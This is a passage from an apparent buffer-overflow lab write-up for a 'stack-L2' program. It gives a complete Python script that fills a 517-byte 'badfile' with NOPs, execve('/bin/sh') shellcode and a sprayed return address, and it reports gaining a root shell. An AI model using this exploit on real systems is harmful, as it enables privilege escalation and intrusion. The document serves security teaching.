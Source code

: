 Debbuging `stack-L2-dbg` we got the buffer address: `0xffffcb18`. So, the code looks like this:

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
 "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)
print(start)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcb18 + start

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(112, 212, L):
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- Offset is being between `112` and `212` because we know that the buffer size is something between 100 and 200.


Upon running `stack-L2`, we gained root-level command line access:

![Root-Level Command Line Access](image-25.png)
Fig.8 Got access to command line
